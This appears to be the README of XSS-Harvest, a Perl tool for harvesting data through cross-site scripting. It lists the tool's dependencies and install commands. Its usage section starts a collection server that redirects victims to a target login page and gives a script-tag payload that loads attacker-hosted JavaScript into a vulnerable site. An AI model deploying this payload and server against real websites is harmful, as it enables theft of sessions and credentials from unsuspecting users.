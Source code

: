 # XSS-Harvest
0.2.x

## CSS-Harvest is by Geoff Jones.
0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## Dependancies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

sudo apt-get install libhttp-server-simple-perl
sudo apt-get install libdigest-md5-file-perl
sudo apt-get install libtime-local-perl
sudo apt-get install libnet-server-perl

## Usage
Start server (with redress:)
* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:
* <script src="http://<serverip>:<serverport>/i"></script>
